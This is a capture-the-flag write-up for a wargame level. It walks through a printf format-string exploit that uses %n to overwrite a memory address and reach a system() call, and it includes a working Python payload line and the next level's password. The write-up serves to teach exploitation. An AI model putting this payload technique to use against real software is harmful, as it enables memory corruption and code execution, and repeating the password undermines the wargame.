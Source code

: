 ### Level 4

#### Basic Recon

![](./pics/1.png)
![](./pics/2.png)

again there's call to printf and there's those functions `n` and `p` maybe there's something going on there.

![](./pics/3.png)

there's that `system` function call in `n` that's our target now.

![](./pics/4.png)
![](./pics/5.png)
![](./pics/6.png)
![](./pics/7.png)

![](./pics/8.png)
![](./pics/8_1.png)

![](./pics/9.png)
![](./pics/10.png)
![](./pics/11.png)
![](./pics/12.png)

and it is the same argument that `p` will use
![](./pics/13.png)

now I want p to store the value `0x1025544` in the location 
`0x8049810`
![](./pics/14.png)
![](./pics/15.png)
![](./pics/16.png)
![](./pics/17.png)
![](./pics/18.png)
![](./pics/19.png)

well we may print that list of charcters `0x1025544` to exact well that's a lot and other probelm printf will start printing our input, but our input can not be big, because we are using `fgets` instead of `gets`, but hold on who says that we need to input that long string we can ask print to print that big string as list of string like this

```c
#include <stdio.h>

int main()
{
    int a = 9;

    printf("%10d", a);
}
```

![](./pics/20.png)

as you can see it will fill the rest with spaces

```py
python -c "from __future__ import print_function; print('\x10\x98\x04\x08' + '%16930112d%12\$n')"

```

why `16930112` well this is just `0x1025544-4` and that 4 is the first 4 charcters which reprsent the address

![](./pics/20.png)
![](./pics/21.png)

#### Password for level 5

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

#### Ideas that I tried

well I tried to write each byte seperatly how? well the idea is to put 4 address on the stack so printf would use them to store what was printed so that means I tried to write the bytes `0x01` `0x02` `0x55` `0x44`, but the problem is when I tried it's hard to write the first byte `0x01`, because printf should write the value 1 in the first location but that's not possible because the smallest value that printf can write in this case is 4, 4 because that the size of the first location
